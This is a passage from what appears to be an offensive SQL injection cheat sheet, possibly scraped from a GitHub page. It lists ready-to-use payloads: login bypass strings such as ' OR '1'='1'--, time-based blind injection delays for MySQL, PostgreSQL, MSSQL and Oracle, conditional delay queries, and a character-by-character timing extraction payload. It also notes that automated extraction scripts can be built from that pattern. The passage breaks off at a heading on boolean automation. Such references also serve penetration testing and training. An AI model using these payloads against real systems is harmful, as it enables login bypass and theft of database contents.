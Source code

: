 → For Oracle, **`SELECT ora_database_name FROM dual;`** requires Oracle 12c+. For older versions, use **`SELECT name FROM v$database;`**

### **Login Bypass Payloads**

| Payload | Use |
| --- | --- |
| `' OR '1'='1'--` | Basic string-based bypass |
| `' OR 1=1--` | Numeric bypass |
| `' OR 'x'='x'--` | Blind bypass |
| `admin'--` | Bypass with known username |
| `' UNION SELECT 1, 'admin', 'password'--` | Bypass + inject data |
| `' OR 1=1 LIMIT 1 OFFSET 1--` | Limit result set |

### **Time-Based SQLi (Blind)**

| DBMS | Payload |
| --- | --- |
| MySQL | `SELECT SLEEP(10);` |
| PostgreSQL | `SELECT pg_sleep(10);` |
| MSSQL | `WAITFOR DELAY '0:0:10';` |
| Oracle | `dbms_pipe.receive_message(('a'),10)` |
|  |  |

**Conditional Delays**

| DBMS | Payload |
| --- | --- |
| MySQL | `SELECT IF(condition,SLEEP(10),'a');` |
| PostgreSQL | `SELECT CASE WHEN (condition) THEN pg_sleep(10) ELSE pg_sleep(0) END;` |
| MSSQL | `IF (condition) WAITFOR DELAY '0:0:10';` |
| Oracle | `SELECT CASE WHEN (condition) THEN dbms_pipe.receive_message('a',10) ELSE NULL END FROM dual;` |

### **Timing-Based Data Extraction via Bitwise Operations**

Very useful in Blind SQLi (character-by-character exfiltration):

```sql
' OR ASCII(SUBSTRING((SELECT database()),1,1)) = 115 AND SLEEP(5) --
```

→ Automated timing extraction scripts can be created from this pattern.

### **Blind Boolean-Based Automation Logic**
